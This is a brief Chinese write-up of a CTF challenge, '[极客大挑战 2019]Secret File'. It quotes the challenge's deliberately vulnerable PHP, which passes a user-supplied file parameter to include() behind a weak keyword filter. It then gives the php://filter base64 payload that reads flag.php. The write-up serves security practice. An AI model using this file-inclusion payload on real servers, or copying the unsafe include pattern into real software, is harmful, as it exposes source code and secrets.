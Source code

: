 # \[极客大挑战 2019]Secret File

## \[极客大挑战 2019]Secret File

## 考点

* 文件包含配合伪协议读取文件
* http

## wp

抓包发现隐藏的链接Archive\_room.php，访问发现新的链接action.php，接着抓包

![](<../../.gitbook/assets/image (31).png>)

访问secr3t.php

```php
<?php
    highlight_file(__FILE__);
    error_reporting(0);
    $file=$_GET['file'];
    if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
        echo "Oh no!";
        exit();
    }
    include($file); 
//flag放在了flag.php里
?>
```

访问`secr3t.php?file=php://filter/convert.base64-encode/resource=flag.php`即可

